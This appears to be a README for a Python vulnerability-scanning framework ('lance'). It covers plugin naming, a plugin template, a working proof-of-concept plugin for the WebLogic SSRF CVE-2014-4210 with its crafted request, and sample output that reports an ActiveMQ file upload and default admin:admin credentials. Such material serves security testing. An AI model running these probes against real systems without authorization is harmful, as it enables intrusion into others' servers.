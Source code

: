 [TOC]
## plugin示例模板

plugin名称应该以中间件或cms框架或其它关键字的小写开头 \+ "\_" \+ 漏洞说明关键字。
e.g.

`activemq_weakpwd`、`weblogic_ssrf`、`discuz_faqsql`、`weblogic_xmldecoder`

plugin内容示例如下：

```python
def run(str):
    """Introduction"""
    # do something
    if `a`:
        return `result`
    else:
        return False
```

e.g.

```python
import requests

def run(url):
    """CVE-2014-4210"""
    payload = ":7001/uddiexplorer/SearchPublicRegistries.jsp?operator=http://localhost/robots.txt&rdoSearch=name&txtSearchname=sdf&txtSearchkey=&txtSearchfor=&selfor=Business+location&btnSubmit=Search"
    req = requests.get(url+payload, timeout=10, verify=False)
    if "weblogic.uddi.client.structures.exception.XML_SoapException" in req.text and "IO Exception on sendMessage" not in req.text:
        return "WebLogic ssrf Vulnerable"
    else:
        return False
```

## 参数说明

```xml
python -u <ip or url> -m <poc or exp>
-u    target url or ip address

-m    poc or exp to be loaded

```

## 输出提示说明

```
[+] 存在漏洞 或 插件执行成功

[-] 不存在漏洞 或 插件执行失败

[*] 输出程序提示信息

[!] 输出程序错误信息
```

e.g.

```
root@kali:~/lance# python3 lance.py -u 192.168.27.128 -m activemq
[06:17:03] [*] Target url: http://192.168.27.128
[06:17:03] [*] Plugin path: /root/lance/plugins 
[06:17:03] [*] Loading activemq plugins.
[06:17:03] [*] Loading plugin: activemq_putfile
[06:17:03] [+] ActiveMQ put file success
[06:17:03] [*] Loading plugin: activemq_movefile
[06:17:03] [-] Not Vulnerable activemq_movefile 
[06:17:03] [*] Loading plugin: activemq_weakpwd
[06:17:03] [+] ActiveMQ weak password!  http://192.168.27.128:8161/admin/   username:admin, pwd:admin
[06:17:03] [*] Finished
root@kali:~/lance#
```